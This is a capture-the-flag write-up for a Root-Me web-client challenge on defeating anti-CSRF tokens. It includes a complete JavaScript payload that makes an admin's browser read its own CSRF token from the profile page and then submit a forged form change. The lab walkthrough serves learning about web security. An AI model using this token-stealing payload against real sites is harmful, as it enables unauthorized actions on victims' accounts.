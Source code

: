 The idea is the same than in 0 protection, but you have a new field in the form.

```
<input id="token" type="hidden" name="token" value="cc2875d8ac95d68c491929e63fbff2df" />
```

If the token is not the one of the admin, you will not be able to modify the form. Well, no problem, we are just going to steal it.
For this, we are going to make the admin request the Profile page, read the token, and then do the same thing than before, but with the admin token.

```
<script>
        var url = "http://challenge01.root-me.org/web-client/ch23/?action=profile";
        var ajax = new XMLHttpRequest();
        ajax.open("GET", url, false);
        ajax.send();

        var regex = /.*<input.*id="token".*value="([a-f0-9]{32})".*\/>/g;
        token = regex.exec(ajax.response)[1];

        ajax = new XMLHttpRequest();
        ajax.open("POST", url);
        ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        ajax.send("username=test&status=on&token=" + token);
</script>
```

Send this script to the admin, wait a bit, and get the flag in private page.
